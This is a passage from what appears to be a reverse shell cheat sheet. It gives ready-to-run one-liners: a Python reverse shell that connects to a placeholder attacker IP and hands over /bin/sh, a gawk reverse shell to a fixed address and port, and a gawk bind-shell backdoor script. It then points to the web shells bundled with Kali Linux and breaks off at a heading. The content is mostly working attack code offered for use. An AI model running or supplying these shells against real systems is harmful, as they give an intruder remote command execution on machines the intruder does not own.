 ## Python Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Gawk Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#gawk-reverse-shell)

Gawk one liner rev shell by @dmfroberson:

```gawk
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```

```gawk
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## Kali Web Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-web-shells)

The following shells exist within Kali Linux, under `/usr/share/webshells/` these are only useful if you are able to upload, inject or transfer the shell to the machine.

### Kali PHP Web Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#kali-php-web-shells)

Kali PHP reverse shells and command shells:
